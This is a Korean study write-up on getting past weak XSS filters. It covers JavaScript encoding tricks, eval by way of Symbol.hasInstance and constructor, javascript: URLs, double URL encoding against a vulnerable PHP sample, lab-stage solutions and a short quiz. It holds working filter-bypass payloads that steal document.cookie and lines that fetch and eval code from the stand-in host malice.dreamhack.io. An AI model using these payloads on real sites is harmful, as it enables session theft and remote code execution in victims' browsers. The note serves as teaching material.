




# 불충분한 XSS 필터링  
## 자바스크립트 함수 및 키워드 필터링 - 1  
자바스크립트는 **Unicode escape sequence**을 지원한다.  
(Unicode escape sequence : "\uAC00" == "가"와 같이 문자열에서 유니코드 문자를 코드포인트로 나타낼 수 있는 표기법)  
Unicode escape sequence 를 통해 우회할 수 있다.  
```javascript
var foo = "\u0063ookie";  // cookie
var bar = "cooki\x65";  // cookie
\u0061lert(document.cookie);  // alert(document.cookie)
```
다음으로 **Computed member access** 를 지원한다.  
(Computed member access : 객체의 특정 속성에 접근할 때 속성 이름을 동적으로 계산하는 기능)  
```javascript
document["coo"+"kie"] == document["cookie"] == document.cookie
```
그래서 Computed member access를 통해 필터링 된 문자열을 자르거나 붙여서 우회를 할 수 있다.  
```javascript
alert(document["\u0063ook" + "ie"]);  // alert(document.cookie)
window['al\x65rt'](document["\u0063ook" + "ie"]);  // alert(document.cookie)
```
  

위의 그림은 우회할 때 자주 사용하는 구문이다.  

## 자바스크립트 함수 및 키워드 필터링 - 2  
위에서 본 **(), [], ", '** 등을 필터링 등으로 사용할 수 없을 때, 문자를 대체하는 방식으로 우회할 수 있다.  
### 문자열 선언  
**"과 '** 이 필터링 되어있을 때, **템플릿 리터럴** 을 사용할 수 있다.  
템플릿 리터럴은 **내장된 표현식을 허용**하는 문자열 리터럴이고 **여러 줄로 이뤄진 문자열**과 **문자를 보관하기 위한 기능**으로 이용한다.  
**`(백틱)** 을 이용해 선언, **${}** 을 이용해 다른 변수나 식을 사용  
```javascript
var foo = "Hello";
var bar = "World";
var baz = `${foo},
${bar} ${1+1}.`; // "Hello,\nWorld 2."
```
baz는 **Hello,\nWorld 2.** 가 된다.  

문자열 선언을 사용할 수 없을 때(따옴표, 백틱을 사용할 수 없을 때) 다음과 같은 방법을 사용할 수 있다.  
#### RegExp 객체 사용하기  
**/Hello World!/** 형태로 **RegExp 객체(정규표현식)를 생성**하고 객체의 **패턴 부분을 가져옴**으로써 문자열을 만들 수 있습니다.  
```javascript
var foo = /Hello World!/.source;  // "Hello World!"
var bar = /test !/ + [];  // "/test !/"
```

#### String.fromCharCode 함수 사용  
**String.fromCharCode** 함수는 유니코드의 범위 중 **파라미터로 전달된 수**에 해당 하는 **문자를 반환**합니다.  
```javascript
var foo = String.fromCharCode(72, 101, 108, 108, 111);  // "Hello"
```

#### 기본 내장 함수나 객체의 문자를 사용하는 방법  
**toString** 함수를 이용해 문자열로 변경하게 되면 **함수나 객체의 형태가 문자열로 변환**된다.  
```javascript
var baz = history.toString()[8] + // "H"
(history+[])[9] + // "i"
(URL+0)[12] + // "("
(URL+0)[13]; // ")" ==> "Hi()"
```
위에서 baz는 **Hi()** 이다.  
**history.toString()** 은 **[object History]** 문자열을 반환함.  
또한 **URL.toString()**은 **function URL() { [native code] }** 문자열을 반환함.  
**history+[]; history+0;** 처럼 **함수나 객체와 +, - 와 같은 산술 연산을 수행**하게 되면 연산을 위해 **toString 함수를 호출**해 문자열로 변환한 후 **연산을 수행**한다.  

#### 숫자 객체의 진법 변환  
**10진수 숫자를 36진수로 변경**하여 **아스키 영어 소문자** 범위를 모두 생성할 수 있습니다.  
문법 오류를 피하기 위해 **괄호, 점 두 개, 공백과 점을 조합해서 사용**한다.  
```javascript
var foo = (29234652).toString(36); // "hello"
var foo = 29234652..toString(36); // "hello"
var bar = 29234652 .toString(36); // "hello"
```

## 자바스크립트 함수 및 키워드 필터링 - 3  
### 함수 호출  
자바스크립트의 함수를 호출하기 위해 **() 혹은 `** 을 사용한다.  
```javascript
alert(1); // Parentheses
alert`1`; // Tagged Templates
```
만약 괄호, 백틱이 전부 필터링 되어있으면 아래에 있는 방법들로 우회할 수 있다.  
### javascript 스키마를 이용한 location 변경  
**javascript:** 스키마를 이용하면 **URL을 이용**해 자바스크립트 **코드를 실행**할 수 있다.  
**location** 객체를 변조하는 방식이다.  
```javascript
location="javascript:alert\x28document.domain\x29;";
location.href="javascript:alert\u0028document.domain\u0029;";
location['href']="javascript:alert\050document.domain\051;";
```

### Symbol.hasInstance 오버라이딩  
**Symbol.hasInstance** *well-known symbol*을 이용하면 **instanceof 연산자를 오버라이드(재정의)** 할 수 있습니다.(obj instanceof Class -> **obj**가 **Class에 속하거나** Class를 **상속받는 클래스에 속하면** true가 반환)  

```javascript
"alert\x28document.domain\x29"instanceof{[Symbol.hasInstance]:eval};
Array.prototype[Symbol.hasInstance]=eval;"alert\x28document.domain\x29"instanceof[];
```

### document.body.innerHTML 추가  
자바스크립트에서는 문서 내에 **새로운 HTML 코드를 추가**하는 것이 가능하다.  
**document.body.innerHTML** 를 이용해 새로운 HTML 코드를 추가할 수 있다.(단, **script** 태그는 제외)  
```javascript
document.body.innerHTML+="";
document.body.innerHTML+="<body src=x: onload=alert&#40;1&#41;>";
```

## 자바스크립트 함수 및 키워드 필터링 실습  
### Stage 1  

```javascript
function XSSFilter(data){
  if(/alert|window|document/.test(data)){
    return false;
  }
  return true;
} 
```

**alert, window, document** 를 필터링 한다.  
즉, alert, document는 **유니코드**를 사용할 수 있다.   
  

**al\u0065rt(docum\u0065nt.cookie)**를 사용했다.  

### Stage 2  
```javascript
function XSSFilter(data){
  if(/alert|window|document|eval|cookie|this|self|parent|top|opener|function|constructor|[\-+\\<>{}=]/i.test(data)){
    return false;
  }
  return true;
}
```

Stage 1에서 우회할 때 흔히 사용하는 대체어를 거의 필터링 한다.  

Stage 2는 너무 어려워서 답을 먼저 봤다.  

  

```javascript
// %63%6F%6E%73%74%72%75%63%74%6F%72 -> constructor
// %61%6C%65%72%74%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%29 -> alert(document.cookie)
Boolean[decodeURI('%63%6F%6E%73%74%72%75%63%74%6F%72')](decodeURI('%61%6C%65%72%74%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%29'))();
Boolean[atob('Y29uc3RydWN0b3I')](atob('YWxlcnQoZG9jdW1lbnQuY29va2llKQ'))();
```
위의 2가지 방식이 있다.  
먼저 constructor는 **자바스크립트 객체의 생성자 함수**를 나타내는 프로퍼티이다.  
여기서 **Boolean[constructor].메소드** 를 통해 특정 메소드를 실행할 수 있다고 한다.  
물론 보안 상의 문제로 사용은 비권장한다.  
즉, 첫 번째는 **decodeURI** 를 통해 **퍼센트 인코딩** 을 디코딩한다. 두 번째는 **atob**를 통해 **Base64 인코딩**을 디코딩한다.  
인코딩/디코딩의 방식 차이이다.  

### Stage 3  
```javascript
function XSSFilter(data){
  if(/[()"'`]/.test(data)){
    return false;
  }
  return true;
}
```

보통 사용되는 특수문자를 필터링한다.  
즉, 문자열에 대한 필터링이 없기 때문에 문자열은 신경쓰지 않아도 된다.  
이 문제에서 특수문자를 얻기 위해 **toString**을 사용하면 된다.  

  

```javascript
/alert/.source+[URL+[]][0][12]+/document.cookie/.source+[URL+[]][0][13] instanceof{[Symbol.hasInstance]:eval};
location=/javascript:/.source + /alert/.source + [URL+0][0][12] + /document.cookie/.source + [URL+0][0][13];
```
위처럼 2가지 방식이 있다.  
첫 번째는 **"alert(document.cookie)" instanceof { [Symbol.hasInstance] : eval }** 로 정리할 수 있다.  

**{ } 는 Object**입니다. 이 Object의 Symbol.hasInstance 속성(해당 객체가 **instance 라면 동작할 코드**)을 **eval로 정의**하였습니다.

그리고 **"alert(document.cookie)" 문자열** 을 **instanceof 연산자**를 통해 뒤의 객체 {}가 instance인지 묻고, **이 객체(Object)가 instance**라면 위에서 정의한 **eval의 인자로 문자열**을 넣어 호출하고 그 결과를 반환합니다.

따라서 결과적으로 **eval("alert(document.cookie)")** 이 되게 됩니다.
두 번째는 **javascript:** 스키마를 통해 뒤에 나오는 alert(document.cookie)를 실행하는 방식이다.  

## 디코딩 전 필터링  
**입력 검증**은 디코딩 등의 **모든 전처리 작업을 마치고 수행**해야 합니다.  
-> **더블 인코딩**과 같은 문제를 막기 위해  
1. 공격자가 **더블 URL 인코딩**한 **%253Cscript%253E** 를 넣은 게시글 업로드를 요청
2. 웹 방화벽이 **디코딩한 결과**인 **%3Cscript%3E**는 **안전하다고 판단**하여 차단하지 않고 애플리케이션에 전달
3. **애플리케이션**이 해당 데이터를 **또 디코딩**해서 <**script**>를 게시판 DB에 저장 (검증 후 디코딩 발생!)️
4. 해당 게시글을 읽으면 XSS가 발생
```php
<?php
$query = $_GET["query"];
if (stripos($query, "<script>") !== FALSE) {
    header("HTTP/1.1 403 Forbidden");
    die("XSS attempt detected: " . htmlspecialchars($query, ENT_QUOTES|ENT_HTML5, "UTF-8"));
}
...
$searchQuery = urldecode($_GET["query"]);
?>
<h1>Search results for: <?php echo $searchQuery; ?></h1>
```
위의 php 코드는 더블 디코딩에 대한 취약점이 있다.  
```http
POST /search?query=%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1
...
-----
HTTP/1.1 403 Forbidden
XSS attempt detected: &lt;script&gt;alert(document.cookie)&lt;/script&gt;
```
위의 메시지는 공격에 실패한 메시지이다.  
```http
POST /search?query=%253Cscript%253Ealert(document.cookie)%253C/script%253E HTTP/1.1
...
-----
HTTP/1.1 200 OK
<h1>Search results for: <script>alert(document.cookie)</script></h1>
```
위의 메시지는 더블 디코딩 공격을 성공한 메시지이다.  
## 길이 제한  
삽입할 수 있는 **코드의 길이가 제한**되어 있는 경우, 다른 경로로 실행할 추가적인 코드 (payload)를 **URL fragment** 등으로 삽입 후 삽입 지점에는 본 **코드를 실행하는 짧은 코드** (launcher)를 사용할 수 있습니다. 
### location.hash 를 이용한 공격 방식  
```http
https://example.com/?q=#alert(document.cookie); 
```
### 외부 자원을 이용한 공격 방식  
```javascript
import("http://malice.dreamhack.io");  
```
```javascript
var e = document.createElement('script')
e.src='http://malice.dreamhack.io';
document.appendChild(e);
```
```javascript
fetch('http://malice.dreamhack.io').then(x=>eval(x.text()))
```

# 퀴즈  
1. JS에서 객체의 특정 속성에 접근할 때 속성 이름을 동적으로 계산하는 기능은 무엇인가?  
**답** : Computed member access  
2. instanceof 연산자를 override 할 수 있는 symbol은 무엇인가?
**답** : Symbol.hasInstance